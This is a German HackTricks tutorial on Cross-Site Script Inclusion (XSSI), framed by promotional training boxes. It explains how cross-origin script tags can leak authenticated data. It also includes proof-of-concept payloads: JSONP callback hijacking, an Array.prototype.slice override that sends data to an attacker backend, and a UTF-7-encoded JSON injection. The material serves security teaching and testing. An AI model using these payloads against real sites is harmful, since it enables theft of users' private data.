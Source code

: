 # XSSI (Cross-Site Script Inclusion)

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}


## Grundinformationen

**Cross-Site Script Inclusion (XSSI)** ist eine Schwachstelle, die sich aus der Natur des `script`-Tags in HTML ergibt. Im Gegensatz zu den meisten Ressourcen, die der **Same-Origin Policy (SOP)** unterliegen, können Skripte von verschiedenen Domains eingebunden werden. Dieses Verhalten soll die Nutzung von Bibliotheken und anderen Ressourcen, die auf verschiedenen Servern gehostet werden, erleichtern, bringt jedoch auch ein potenzielles Sicherheitsrisiko mit sich.

### Hauptmerkmale von **XSSI**:
- **Umgehung der SOP**: Skripte sind von der **Same-Origin Policy** ausgenommen, was es ihnen ermöglicht, über Domains hinweg eingebunden zu werden.
- **Datenexposition**: Ein Angreifer kann dieses Verhalten ausnutzen, um Daten zu lesen, die über das `script`-Tag geladen werden.
- **Auswirkungen auf dynamisches JavaScript/JSONP**: **XSSI** ist besonders relevant für dynamisches JavaScript oder **JSON mit Padding (JSONP)**. Diese Technologien verwenden häufig "ambient-authority"-Informationen (wie Cookies) zur Authentifizierung. Wenn eine Skriptanfrage an einen anderen Host gesendet wird, werden diese Anmeldeinformationen (z. B. Cookies) automatisch in die Anfrage aufgenommen.
- **Leckage von Authentifizierungstoken**: Wenn ein Angreifer den Browser eines Benutzers dazu bringen kann, ein Skript von einem Server anzufordern, den er kontrolliert, könnte er möglicherweise auf sensible Informationen zugreifen, die in diesen Anfragen enthalten sind.

### Typen

1. **Statisches JavaScript** - Dies stellt die konventionelle Form von XSSI dar.
2. **Statisches JavaScript mit Authentifizierung** - Dieser Typ ist besonders, da er eine Authentifizierung zum Zugriff erfordert.
3. **Dynamisches JavaScript** - Bezieht sich auf JavaScript, das Inhalte dynamisch generiert.
4. **Nicht-JavaScript** - Bezieht sich auf Schwachstellen, die JavaScript nicht direkt betreffen.

**Die folgenden Informationen sind eine Zusammenfassung von [https://www.scip.ch/en/?labs.20160414](https://www.scip.ch/en/?labs.20160414)**. Überprüfe es für weitere Details.


### Reguläres XSSI
In diesem Ansatz sind private Informationen in einer global zugänglichen JavaScript-Datei eingebettet. Angreifer können diese Dateien mit Methoden wie Dateilesen, Schlüsselwortsuche oder regulären Ausdrücken identifizieren. Sobald sie gefunden sind, kann das Skript, das private Informationen enthält, in bösartigen Inhalten eingebunden werden, was unbefugten Zugriff auf sensible Daten ermöglicht. Eine Beispielausnutzungstechnik ist unten dargestellt:
```html
<script src="https://www.vulnerable-domain.tld/script.js"></script>
<script> alert(JSON.stringify(confidential_keys[0])); </script>
```
### Dynamisch-JavaScript-basiertes-XSSI und Authentifiziertes-JavaScript-XSSI
Diese Arten von XSSI-Angriffen beinhalten, dass vertrauliche Informationen dynamisch in das Skript hinzugefügt werden, als Reaktion auf eine Anfrage des Benutzers. Die Erkennung kann durchgeführt werden, indem Anfragen mit und ohne Cookies gesendet und die Antworten verglichen werden. Wenn die Informationen unterschiedlich sind, kann dies auf das Vorhandensein vertraulicher Informationen hinweisen. Dieser Prozess kann mit Tools wie der [DetectDynamicJS](https://github.com/luh2/DetectDynamicJS) Burp-Erweiterung automatisiert werden.

Wenn vertrauliche Daten in einer globalen Variablen gespeichert sind, können sie mit ähnlichen Methoden wie bei Regular XSSI ausgenutzt werden. Wenn die vertraulichen Daten jedoch in einer JSONP-Antwort enthalten sind, können Angreifer die Callback-Funktion hijacken, um die Informationen abzurufen. Dies kann entweder durch Manipulation globaler Objekte oder durch das Einrichten einer Funktion geschehen, die von der JSONP-Antwort ausgeführt wird, wie unten gezeigt:
```html
<script>
var angular = function () { return 1; };
angular.callbacks = function () { return 1; };
angular.callbacks._7 = function (leaked) {
alert(JSON.stringify(leaked));
};
</script>
<script src="https://site.tld/p?jsonp=angular.callbacks._7" type="text/javascript"></script>
```

```html
<script>
leak = function (leaked) {
alert(JSON.stringify(leaked));
};
</script>
<script src="https://site.tld/p?jsonp=leak" type="text/javascript"></script>
```
Für Variablen, die sich nicht im globalen Namensraum befinden, kann *Prototype Tampering* manchmal ausgenutzt werden. Diese Technik nutzt das Design von JavaScript aus, bei dem die Code-Interpretation das Durchlaufen der Prototypenkette umfasst, um die aufgerufene Eigenschaft zu finden. Durch das Überschreiben bestimmter Funktionen, wie `Array`'s `slice`, können Angreifer auf nicht globale Variablen zugreifen und diese leaken:
```javascript
Array.prototype.slice = function(){
// leaks ["secret1", "secret2", "secret3"]
sendToAttackerBackend(this);
};
```
Weitere Details zu Angriffvektoren finden Sie in der Arbeit des Sicherheitsforschers [Sebastian Lekies](https://twitter.com/slekies), der eine Liste von [Vektoren](http://sebastian-lekies.de/leak/) führt.

### Non-Script-XSSI
Die Forschung von Takeshi Terada führt eine weitere Form von XSSI ein, bei der Non-Script-Dateien, wie CSV, cross-origin durch die Einbindung als Quellen in einem `script`-Tag geleakt werden. Historische Fälle von XSSI, wie Jeremiah Grossmans Angriff im Jahr 2006, um ein vollständiges Google-Adressbuch zu lesen, und Joe Walkers JSON-Datenleck im Jahr 2007, heben die Schwere dieser Bedrohungen hervor. Darüber hinaus beschreibt Gareth Heyes eine Angriffsvariante, die UTF-7-kodiertes JSON verwendet, um das JSON-Format zu umgehen und Skripte auszuführen, was in bestimmten Browsern effektiv ist:
```javascript
[{'friend':'luke','email':'+ACcAfQBdADsAYQBsAGUAcgB0ACgAJwBNAGEAeQAgAHQAaABlACAAZgBvAHIAYwBlACAAYgBlACAAdwBpAHQAaAAgAHkAbwB1ACcAKQA7AFsAewAnAGoAbwBiACcAOgAnAGQAbwBuAGU-'}]
```

```html
<script src="http://site.tld/json-utf7.json" type="text/javascript" charset="UTF-7"></script>
```
{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}
